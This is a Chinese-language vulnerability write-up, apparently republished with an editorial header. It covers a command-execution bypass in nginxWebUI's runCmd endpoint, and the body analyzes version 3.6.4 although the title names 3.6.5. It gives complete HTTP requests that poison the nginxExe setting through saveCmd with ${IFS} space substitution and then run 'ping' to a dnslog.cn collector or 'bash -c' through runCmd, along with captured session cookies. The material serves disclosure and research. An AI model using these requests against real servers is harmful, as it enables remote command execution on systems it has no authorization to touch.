# nginxWebUI 3.6.5 版本审计与绕过

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Authenticated session;Linux shell variable handling;body analyzes3.6.4 while title3.6.5
- 证据范围：Distinct configuration-poisoning bypass and patch chronology;critical code/screenshots not inspected

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Title3.6.5 versus repeated3.6.4 analysis/lab needs explicit tested-build clarification
- Timeline years absent;3.6.6 claimed further fix does not establish complete remediation
- HTTP requests omit header/body separator;short examples concatenate requestline/Host
- Captured session tokens and the DNS collector depend on the original environment and do not establish current validity or authorization
- Preserve authenticated bypass scope separate from earlier pre-auth case-folding issue

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/8lkpLbXte9kIbKyHdHLPyg)

**概述**

  

nginxWebUI runCmd 远程命令执行漏洞时间线：

- 5 月 19 日 官方发布新版本（3.5.2）修复漏洞

- 5 月 26 日 漏洞细节在安全社区（火线）公开披露

- 6 月 29 官方发布 3.6.2 、3.6.3 进一步修复 runCmd 远程命令执行漏洞

- 6 月 30 官方发布 3.6.4 进一步修复 runCmd 远程命令执行漏洞

- 7 月 11 官方发布 3.6.6 进一步修复 runCmd 远程命令执行漏洞

目前已跟进版本：



3.4.7-3.6.3 版本代码分析参考上一篇。

**3.6.4 版本审计**

  

定位到命令执行接口：\nginxWebUI-3.6.4\src\main\java\com\cym\controller\adminPage\ConfController.java 330 行



在这里 runcmd 接收 2 个参数：cmd 和 type。先检查 type 是否为空，不为空则调用 settingService.set(type, cmd) 使用配置文件的相关配置：



然后使用了 if (!isAvailableCmd(cmd)) ，检查 cmd 是否为有效的命令



跟一下! isAvailableCmd：366 行



一个布尔类型私有方法，检查 cmd 参数是否有效，过滤了获取的所有路径，检查命令是否属于以下命令：

*   "pkill nginx"
    
*   "taskkill /f /im nginx.exe"
    
*   "systemctl stop nginx"
    
*   "service nginx stop"
    
*   "net stop nginx"
    
*   "systemctl start nginx"
    
*   "service nginx start"
    
*   "net start nginx"
    

符合返回 true，否则返回 false，并返回错误信息。然后将传入的值进行处理，并且与 nginxEXE 参数进行判断是否相等，即将命令与 nginx 服务端执行的命令进行对比。

随后回到 runcmd 方法：然后是一个判断系统为 win 或者 linux，调用不同的系统命令。



然后对结果进行非空判断和内容正则。



**3.6.4 漏洞构造**

  

根据前文代码的分析，要继续构造命令执行，就必须传入 cmd 参数，且绕过 isAvailableCmd 中对 nginxDir 和 nginxExe 的校验。

我们找到了处理这两个参数的 saveCmd 方法：272 行



该方法接收三个参数 nginxPath、nginxExe 和 nginxDir，在方法内部调用 ToolUtils.handlePath 进行过滤处理，即黑名单的方式对以下空格和符号进行转义替换。



**尝试绕过**

  

在 linux 下，linux 把 ${IFS} 会被当做空格：



访问 nginxweibui



配置 nginxExe 参数：即将 isAvailableCmd 中的 nginxExe 预设成我们将要执行的命令。



```http
POST /adminPage/conf/saveCmd HTTP/1.1
Host: x.x.x.x:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 47
Origin: http://x.x.x.x:8080
DNT: 1
Connection: close
Referer: http://x.x.x.x:8080/adminPage/conf/runCmd
Cookie:SOLONID=ce4041f594264664b6f51a641b8a77e2; Hm_lvt_8acef669ea66f479854ecd328d1f348f=1689320655; Hm_lpvt_8acef669ea66f479854ecd328d1f348f=1689321911
nginxExe=ping${IFS}22dck7.dnslog.cn&nginxPath=1

```

命令执行：



```http
POST /adminPage/conf/runCmd HTTP/1.1
Host: x.x.x.x:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: http://x.x.x.x:8080
DNT: 1
Connection: close
Referer: http://x.x.x.x:8080/adminPage/conf/runCmd
Cookie: SOLONID=ce4041f594264664b6f51a641b8a77e2; Hm_lvt_8acef669ea66f479854ecd328d1f348f=1689320655; Hm_lpvt_8acef669ea66f479854ecd328d1f348f=1689321911
cmd=ping${IFS}22dck7.dnslog.cn -c 1

```

Dnslog 返回成功。



其他命令：

```http
POST /adminPage/conf/saveCmd HTTP/1.1Host: xxx
nginxExe=bash${IFS}&nginxPath=ls

```

```http
POST /adminPage/conf/runCmd HTTP/1.1Host: xxxx
cmd=bash${IFS} -c ls

```


美创科技旗下第 59 号实验室，专注于数据安全技术领域研究，聚焦于安全防御理念、攻防技术、威胁情报等专业研究，进行知识产权转化并赋能于产品。累计向 CNVD、CNNVD 等平台提报数百个高质量原创漏洞，发明专利数十篇，团队著有《数据安全实践指南》

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
